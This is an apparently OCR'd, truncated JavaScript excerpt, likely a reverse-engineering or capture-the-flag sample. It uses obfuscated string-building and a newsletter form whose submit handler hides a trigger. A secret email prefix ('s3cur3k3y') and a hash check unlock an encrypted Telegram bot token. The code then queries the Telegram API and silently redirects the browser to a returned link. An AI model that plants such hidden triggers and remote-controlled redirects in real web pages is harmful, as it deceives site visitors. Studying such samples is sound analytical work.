 ```js
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    4..toString(36).toLowerCase() + 
    32..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -39) 
    }).join('') + 
    381..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 60 - t) 
        }).join('')
    }(42, 216, 153, 153, 213, 187);
}

document.getElementById("newsletterForm").addEventListener("submit", function(e) {
  e.preventDefault();
  const emailField = document.getElementById("email");
  const descriptionField = document.getElementById("descriptionField");
  let isValid = true;
  if (!emailField.value) {
    emailField.classList.add("shake");
    isValid = false;
    setTimeout(() => {
      return emailField.classList.remove("shake");
    }, 500);
  }
  if (!isValid) {
    return;
  }
  const emailValue = emailField.value;
  const specialKey = emailValue.split("@")[0];
  const desc = parseInt(descriptionField.value, 10);
  f(specialKey, desc);
});

function f(oferkfer, icd) {
  const channel_id = -1002496072246;
  var enc_token = "nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==";
  // _$_5975[1] = s3cur3k3y
  // _$_5975[8] = 18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=
  if (oferkfer === G(_$_5975[1]) && 
        CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === _$_5975[8]) {
    var decrypted = CryptoJS.RC4Drop.decrypt(
            enc_token, 
            CryptoJS.enc.Utf8.parse(oferkfer), 
            { drop: 192 }
        ).toString(CryptoJS.enc.Utf8);
    var HOST = "https://api.telegram.org/bot"+ decrypted;
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        const resp = JSON.parse(xhr.responseText);
        try {
          const link = resp.result.text;
          window.location.replace(link);
        } catch (error) {
          alert("Form submitted!");
        }
      }
    };
```
